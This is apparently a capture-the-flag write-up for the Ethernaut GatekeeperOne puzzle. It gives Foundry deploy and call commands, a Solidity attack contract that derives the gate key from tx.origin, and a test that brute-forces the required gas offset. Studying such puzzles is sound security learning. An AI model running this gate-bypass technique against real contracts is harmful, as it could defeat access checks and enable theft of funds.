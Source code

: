 1. deploy puzzle contract and get the solidity version is `0.8.12`
2. deploy the attack contract `forge create ./src/GatekeeperOneAttack.sol:GatekeeperOneAttack --rpc-url $SEPOLIA_URL  --account {your_account} --constructor-args {puzzle_contract_address}`
3. find the gas parameter `forge test -vvvv --match-test testFindGas --fork-url=$SEPOLIA_URL` to get the gas parameter
4. call the attack contract ` cast send {attack contract} --rpc-url=$SEPOLIA_URL  --account {your_account} "attack(address,uint256)"  {puzzle_contract-address} {gas}`

```solidity src/IGatekeeperOne.sol
// SPDX-License-Identifier: MIT
pragma solidity 0.8.12;

interface IGatekeeperOne {
    function enter(bytes8) external returns (bool);
}

```

```solidity src/GatekeeperOneAttack.sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.12;

import {IGatekeeperOne} from "./IGatekeeperOne.sol";

contract GatekeeperOneAttack {
    IGatekeeperOne public gatekeeperOne;

    function attack(address _gatekeeperOne, uint256 gas) external {
        gatekeeperOne = IGatekeeperOne(_gatekeeperOne);
        uint64 gatekey = uint64(uint16(uint160(tx.origin))) + (0x1 << 32);

        require(gas < 8191, "gas>=8191");
        bool success = gatekeeperOne.enter{gas: 8191 * 20 + gas}(bytes8(gatekey));
        assert(success);
    }
}
```

```solidity test/Attack.t.sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.12;

import {Test, console} from "forge-std/Test.sol";
import {IGatekeeperOne} from "../src/IGatekeeperOne.sol";
import {GatekeeperOneAttack} from "../src/GatekeeperOneAttack.sol";

contract GatekeeperOneAttackFindGas is Test {
    IGatekeeperOne public gatekeeper;
    GatekeeperOneAttack public attackContract;

    function setUp() public {
        gatekeeper = IGatekeeperOne(0xAa9b26C7db2B8971D43154734f90aE5C425291bf);
        attackContract = new GatekeeperOneAttack();
    }

    function testFindGas() external {
        console.log("tx.origin", tx.origin);
        for (uint256 i = 0; i < 8191; i++) {
            try attackContract.attack(address(gatekeeper), i) {
                console.log("Success with gas: ", i);
                return;
            } catch {}
        }
        revert("No gas found");
    }
}
```

